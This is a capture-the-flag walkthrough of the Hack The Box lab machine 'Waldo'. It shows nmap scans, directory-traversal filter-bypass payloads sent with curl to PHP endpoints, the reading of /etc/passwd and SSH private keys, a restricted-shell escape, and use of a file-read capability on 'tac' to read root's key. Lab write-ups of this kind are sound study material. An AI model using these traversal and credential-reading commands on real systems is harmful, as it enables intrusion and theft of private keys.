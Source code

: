 # [Waldo](https://app.hackthebox.com/machines/Waldo)

```bash
nmap -p- --min-rate 10000 10.10.10.87 -Pn
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan for these ports.

```bash
nmap -A -sC -sV -p22,80 10.10.10.87 -Pn
```

![alt text](img/image-1.png)

While open our web application, I see such an web page.

![alt text](img/image-2.png)


Let's look at backend files for this processing.

![alt text](img/image-3.png)

Backend files are below.
```bash
dirRead.php
fileRead.php
fileWrite.php
fileDelete.php
```

Let's check `dirRead.php` file by using `curl` command.
```bash
curl -X POST -d "path=/" http://10.10.10.87/dirRead.php
```

![alt text](img/image-4.png)


Let's read files via `fileRead.php` file by using `curl` command.
```bash
curl -s -X POST -d "file=dirRead.php" http://10.10.10.87/fileRead.php | jq -r .file
```

![alt text](img/image-5.png)


For file bypass filters, I already know them.

![alt text](img/image-6.png)

For example, we can bypass `dirRead.php` file Directory Filter via below `Directory Traversal` payloads.
```bash
curl -s -X POST -d "path=....//....//....//" http://10.10.10.87/dirRead.php | jq -rc .
```

![alt text](img/image-7.png)


Let's read `/etc/passwd` file via `Directory Traversal` payload.
```bash
curl -s -X POST -d "file=....//....//....//etc/passwd" http://10.10.10.87/fileRead.php | jq -r .file
```

![alt text](img/image-8.png)

From this result, I see that `nobody` user is local user as because grep via `home`.

Let's check private key (id_rsa) file of `nobody` user to read.
```bash
curl -s -X POST -d "file=....//....//....//home/nobody/.ssh/.monitor" http://10.10.10.87/fileRead.php | jq -r .file
```

![alt text](img/image-9.png)


**Note:** As you see file `id_rsa` name changed into `.monitor`

I copied this private key file and change permission with  `600` and login via `ssh` command.

![alt text](img/image-10.png)

user.txt

![alt text](img/image-11.png)


While I run `netstat -ntpl` command, I see ports `22` and `8888`.

Let's use our private key file `.monitor` which we used before to authenticate into `localhost` via `monitor` user.
```bash
ssh -i /home/nobody/.ssh/.monitor monitor@localhost
```

![alt text](img/image-12.png)

It worked.

From my perspective of view, this user is setup `rbash` as because, commands I tried, don't work.

![alt text](img/image-13.png)


To escape from `rbash` shell means `restricted shell`,we need to specify shell type via `-t` option while joining into machine as below.
```bash
ssh -i /home/nobody/.ssh/.monitor monitor@localhost -t bash
```

Then, we need to specify `environmental` variabled called `$PATH` which locates executive directories.
```bash
export PATH=/root/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

![alt text](img/image-14.png)


For `Privilege Escalation` vector, I looked at privileges of this user via `getcap` command.
```bash
getcap -r / 2>/dev/null
```

![alt text](img/image-15.png)


From here, I see `tac` privilege that, I can read all information, data and sensitive files.

That's why, we can read private key `id_rsa` file of `root` user.
```bash
tac /root/.ssh/id_rsa
```

![alt text](img/image-16.png)

Let's copy this and change privilege to `600` and then connect into machine via `ssh`.


**But this way doesn't work.**

root.txt

![alt text](img/image-17.png)
